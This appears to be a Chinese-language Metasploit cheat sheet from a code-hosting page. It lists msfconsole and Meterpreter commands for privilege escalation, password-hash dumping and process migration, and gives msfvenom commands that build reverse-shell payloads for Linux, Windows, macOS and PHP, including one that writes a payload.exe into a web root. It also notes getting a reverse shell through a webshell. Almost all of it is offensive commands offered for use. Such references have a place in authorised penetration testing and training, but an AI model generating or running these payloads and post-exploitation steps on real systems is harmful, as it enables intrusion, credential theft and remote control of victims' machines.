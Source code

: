 ```bash
# 访问webshell页面
# 获得反弹的 Metasploit Shell
后续就可以进行提权等操作了
```



------------------


#### msf基础命令
```bash
search ms17  # 查找
use exploit/multi/handler    # 使用
info    # 查看信息
show expoits/payloads/options    # 显示可用信息
exploit /run    # 执行
back    # 返回上一级
exploit -j     # 后台运行
sessions    # 查看当前可用会话
session -i 1  # 连接某个会话
sessions -K    # 杀死所有活跃会话
```



#### Meterpreter命令：
```bash
getuid    # 查看用户名，从而查看当前会话具有的权限
sysinfo    # 列出主机信息
getprivs    # 尽可能多地获取目标主机上的特权
getystem    # 通过各种攻击向量来提升到系统用户权限
hashdump    # 导出目标主机中的口令哈希值
screenshot    # 屏幕截图
background    # 将当前的meterpreter shell转为后台执行
quit    # 关闭当前meterpreter会话，回到msf终端

ps    # 显示所有运行进程
migrate PID    # 迁移到制定的进程PID
execute -f cmd.exe -i  # 执行cmd.exe命令并进行交互
shell    # 以所有可用令牌来进行一个交互的shell
```


#### msfvenom基础
```bash
# 参考：msf下的各种生成payload命令  http://www.cnblogs.com/backlion/p/6000544.html
### 二进制
# Linux
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf

# Windows 生成exe程序
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.0.105 lport=4444 -f exe -o /var/www/html/payload.exe

# Mac
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho


### Web Payloads
# PHP
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
```